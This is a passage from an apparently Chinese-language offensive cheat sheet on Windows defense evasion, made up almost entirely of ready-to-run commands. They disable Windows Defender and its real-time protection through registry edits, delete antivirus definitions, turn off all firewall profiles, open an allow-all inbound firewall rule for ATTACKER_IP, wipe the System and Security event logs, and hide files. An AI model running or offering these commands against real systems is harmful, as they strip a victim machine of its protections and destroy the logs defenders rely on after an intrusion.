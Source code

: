 ```powershell
reg add "HKLM\System\CurrentControlSet\Control\WMI\Autologger\DefenderApiLogger" /v "Start" /t REG_DWORD /d "0" /f

# 清除当前存储的定义
# MpCmdRun.exe的位置：C:\ProgramData\Microsoft\Windows Defender\Platform\<antimalware platform version>
MpCmdRun.exe -RemoveDefinitions -All

# 移除签名（如果有互联网连接，它们将被再次下载）：
PS > & "C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.2008.9-0\MpCmdRun.exe" -RemoveDefinitions -All
PS > & "C:\Program Files\Windows Defender\MpCmdRun.exe" -RemoveDefinitions -All

# 禁用Windows Defender安全中心
reg add "HKLM\System\CurrentControlSet\Services\SecurityHealthService" /v "Start" /t REG_DWORD /d "4" /f

# 禁用实时保护
reg delete "HKLM\Software\Policies\Microsoft\Windows Defender" /f
reg add "HKLM\Software\Policies\Microsoft\Windows Defender" /v "DisableAntiSpyware" /t REG_DWORD /d "1" /f
reg add "HKLM\Software\Policies\Microsoft\Windows Defender" /v "DisableAntiVirus" /t REG_DWORD /d "1" /f
```


### 禁用Windows防火墙

```powershell
Netsh Advfirewall show allprofiles
NetSh Advfirewall set allprofiles state off

# IP白名单
New-NetFirewallRule -Name morph3inbound -DisplayName morph3inbound -Enabled True -Direction Inbound -Protocol ANY -Action Allow -Profile ANY -RemoteAddress ATTACKER_IP
```

### 清除系统和安全日志

```powershell
cmd.exe /c wevtutil.exe cl System
cmd.exe /c wevtutil.exe cl Security
```

## 简单用户

将文件设置为隐藏

```powershell
attrib +h c:\autoexec.bat
```

### 注册表HKCU
